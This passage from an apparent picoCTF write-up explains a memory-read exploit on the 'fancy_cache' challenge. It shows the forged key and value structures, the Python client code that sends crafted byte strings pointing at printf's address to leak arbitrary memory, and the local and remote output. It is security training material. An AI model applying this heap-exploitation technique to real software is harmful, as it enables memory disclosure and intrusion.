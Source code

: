 ```bash
old_key->length = 0x6
old_key->cap = 0x00
old_key->data = pointer to string that is known, like printf ->      0x8048310
```
We need that known string (printf was chosen arbitrarily) because we need the following piece of code to evaluate to true:

```c
    if (string_eq(entry->key, key)) {
	   return entry;
    }
```

- We request the key called 'printf'; the cache_lookup will succeed, and it will give us the memory that is stored at old_value->data, which is supplied by us!

```python
### modifications to client.py:

# Add an entry to the cache
assert cache_set(f, 'keyAAAA', 'AAAA____', 0xffffffff)
# Delete from cache
print cache_get(f, 'keyAAAA')
# This is read into the old "value" struct (used to be 0x8, 0x0, *(AAAA____)). 
print cache_get(f, '\xff\x00\x00\x00\x00\x00\x00\x00\xc9\x8b\x04\x08')
# This is read into the old "key" struct (used to be 0x7, 0x0, *(keyAAAA))
# We supply the address of 'printf', so the check will pass & we read whatever is at value->data
print cache_get(f, '\x06\x00\x00\x00\x06\x00\x00\x00\x10\x83\x04\x08')
# Print the actual data!
print cache_get(f, 'printf')
```

This gives the following output locally:

```bash
bas@tritonal:~/tmp/picoctf/fancy_cache$ python client.py 
AAAA____
None
None
REDACTED REDACTED REDACTED REDACTED REDACTED REDACTED REDACTED REDACTED REDACTED REDACTED REDACTED REDACTED REDACTED REDACTED REDACTED REDACTED REDACTED REDACTED REDACTED REDACTED REDACTED REDACTED REDACTED REDACTED REDACTED REDACTED REDACTED REDACTED RED
```

And for the remote server:

```bash
bas@tritonal:~/tmp/picoctf/fancy_cache$ python client.py 

AAAA____
None
None
ongratulations! Looks like you figured out how to read memory. This can can be a useful tool for defeating ASLR :-) Head over to https://picoctf.com/problem-static/binary/fancy_cache/next_steps.html for some hints on how to go from what you have to a shel
```
